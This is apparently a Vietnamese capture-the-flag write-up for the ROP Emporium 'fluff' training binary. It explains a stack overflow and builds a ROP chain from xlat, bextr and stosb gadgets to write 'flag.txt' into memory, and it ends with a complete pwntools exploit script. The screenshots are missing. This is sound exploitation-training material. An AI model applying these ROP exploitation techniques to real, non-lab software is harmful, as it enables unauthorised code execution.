




# ROP_Emporium - fluff

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp đến sử dụng gdb để debug chương trình và xem các hàm:

Hàm pwnme()



Còn có hàm usefulFunction()


cũng như questionableGadgets()



# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành **flag.txt** để hàm này đọc flag file và in ra
--> ROP_chain

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:


Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây

Tìm 1 địa chỉ trống có quyền ghi:


ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:



ở đây mình sẽ lấy **0x6010f0**

# Quan trọng:

Đối với questionableGadgets() có tổng cộng 3 gadgets để sử dụng:
- xlat   BYTE PTR ds:[rbx]


Sau khi chạy lệnh này giá trị tại địa chỉ bộ nhớ [rbx + AL] sẽ được đọc và ghi vào thanh ghi AL

- bextr  rbx,rcx,rdx


Với lệnh bextr rbx,rcx,rdx, giá trị nguồn được trích xuất là giá trị của thanh ghi RCX. Chỉ số và độ dài bit được chỉ định bởi giá trị của thanh ghi RDX. Sau đó, giá trị kết quả của phép trích xuất bit này sẽ được đặt vào thanh ghi RBX.

Hay ngắn gọn đó là RBX = RCX sau khi chạy lệnh
Ví dụ:


Sau khi chạy lệnh **bextr  rbx,rcx,rdx**


- xtos   BYTE PTR es:[rdi],al


Lệnh này sau khi sử dụng sẽ lưu giá trị của thanh ghi al vào [rdi] sau đó tăng rdi lên 1 đơn vị

Chuỗi logic để ghi từng ký tự vào địa chỉ chuỗi cần ghi "flag.txt", cụ thể ghi ký tự đầu là "f":

- Bước 1: 

Đây là các thanh ghi trước khi chạy:


+ pop_rdx_rcx_addrcx

+ 0x3000

+ f_char-0x3ef2-0xb

f_char là địa chỉ chứa ký tự cần ghi là "f" và ghi vào rcx


Do gadget có chứa **add    rcx,0x3ef2** nên ta sẽ giảm địa chỉ f_char đi 0x3ef2 đơn vị để sau khi cộng sẽ là địa chỉ của chữ "f"

vì trước khi chạy lệnh này RAX có giá trị bằng 0xb nên ta sẽ giảm f_char thêm 0xb đơn vị ( điều này sẽ nói ở bước sau) 

-> **bextr  rbx,rcx,rdx** để lưu địa chỉ RBX = RCX

- Bước 2:

Đây là các thanh ghi trước khi chạy:


+ xlat

Như đã nói ở trên, saau khi chạy lệnh này giá trị tại địa chỉ bộ nhớ [rbx + AL] sẽ được đọc và ghi vào thanh ghi AL do đó ta đã giảm f_char thêm 0xb đơn vị vì trước khi chạy lệnh này RAX = 0xb

- Bước 3: 

Đây là các thanh ghi trước khi chạy:


+ pop_rdi_ret
+ null_addr + 0

Đưa địa chỉ byte để ghi giá trị từ AL vào 
	
+ xtos 

Như đã nói, lệnh này sau khi sử dụng sẽ lưu giá trị của thanh ghi al vào [rdi] sau đó tăng rdi lên 1 đơn vị. Khi đó tại địa chỉ chuỗi ghi **0x6010f0** sẽ chứa ký tự "f" 


# Tiếp tục lặp lại cho đến khi ghi đủ 8 ký tự "f", "l", "a", "g", ".", "t", "x", "t"


Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./fluff', checksec=False)

p = process("./fluff")
#gdb.attach(p, gdbscript='''
#b*pwnme+152
#c
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['questionableGadgets']
xtos = gadget + 17 			#Luu gia tri cua al vao [rdi]
xlat = gadget + 0			#Luu ky tai [rbx+al] vao lai al  
pop_rdx_rcx_addrcx = gadget + 2 	#add rcx,0x3ef2 roi luu vao rbx 

f_char = 0x4003c4
l_char = 0x400239
a_char = 0x4003d6
g_char = 0x4003cf
dot_char = 0x40024e
x_char = 0x400246
t_char = 0x4003d5

null_addr = 0x6010f0             
   
payload1 = flat(#rdx , rcx , addrcx
	cyclic(0x28),

	pop_rdx_rcx_addrcx,             #ghi f vào 0x6010f0
	0x3000,
	f_char-0x3ef2-0xb,
	xlat,
	pop_rdi_ret,
	null_addr,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi l vào 0x6010f1
	0x3000,
	l_char-0x3ef2-0x66,
	xlat,
	pop_rdi_ret,
	null_addr + 1,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi a vào 0x6010f2
	0x3000,
	a_char-0x3ef2-0x6c,
	xlat,
	pop_rdi_ret,
	null_addr + 2,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi g vào 0x6010f3
	0x3000,
	g_char-0x3ef2-0x61,
	xlat,
	pop_rdi_ret,
	null_addr + 3,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi . vào 0x6010f4
	0x3000,
	dot_char-0x3ef2-0x67,
	xlat,
	pop_rdi_ret,
	null_addr + 4,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi t vào 0x6010f5
	0x3000,
	t_char-0x3ef2-0x2e,
	xlat,
	pop_rdi_ret,
	null_addr + 5,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi x vào 0x6010f6
	0x3000,
	x_char-0x3ef2-0x74,
	xlat,
	pop_rdi_ret,
	null_addr + 6,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi t vào 0x6010f7
	0x3000,
	t_char-0x3ef2-0x78,
	xlat,
	pop_rdi_ret,
	null_addr + 7,
	xtos,
	
	pop_rdi_ret,                    #đưa địa chỉ 0x6010f0 chứa chuỗi "flag.txt" vào rdi và call print_file
	null_addr,
	vuln+9	
    )

p.sendlineafter(b">",payload1)
p.interactive()

```
# 4. Lấy flag




